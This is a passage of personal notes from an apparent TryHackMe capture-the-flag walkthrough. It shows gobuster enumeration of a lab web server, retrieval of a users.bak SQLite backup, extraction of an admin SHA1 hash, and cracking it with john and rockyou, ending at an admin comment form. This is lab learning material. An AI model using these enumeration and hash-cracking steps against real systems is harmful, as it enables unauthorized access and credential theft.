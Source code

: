 http://10.10.32.158

![[main web.png]]

```
gobuster dir -u http://10.10.32.158:80 -w /usr/share/wordlists/dirb/big.txt -o /opt/THM/Mustacchio/2-enum/web/gob_dir_big.md
```

```
/custom               (Status: 301) [Size: 313] [--> http://10.10.32.158/custom/]
```

![[custom dir.png]]

http://10.10.32.158/custom/js/

![[users.bak web.png]]

```
wget http://10.10.32.158/custom/js/users.bak
```

```
strings users.bak    
```


```                     
SQLite format 3
tableusersusers
CREATE TABLE users(username text NOT NULL, password text NOT NULL)
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

```
admin
1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

https://hashes.com/en/tools/hash_identifier

```
1868e36a6d2b17d4c2745f1659433a54d4bc5f4b - Possible algorithms: SHA1
```

luckliy it has already been identified

https://hashes.com/en/decrypt/hash

```
1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:bulldog19
```

but for the sake of the process

```
john --wordlist=/usr/share/wordlists/rockyou.txt sqlhashes.md 
```

```
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 512/512 AVX512BW 16x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldog19        (?)     
1g 0:00:00:00 DONE (2024-11-22 04:35) 25.00g/s 17102Kp/s 17102Kc/s 17102KC/s bulldog93..bullcrap1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed.
```

```
admin
bulldog19
```

checking out that port found earlier

http://10.10.32.158:8765

![[admin panel web.png]]


we are redirected to a post form

http://10.10.32.158:8765/home.php

![[admin comment web.png]]
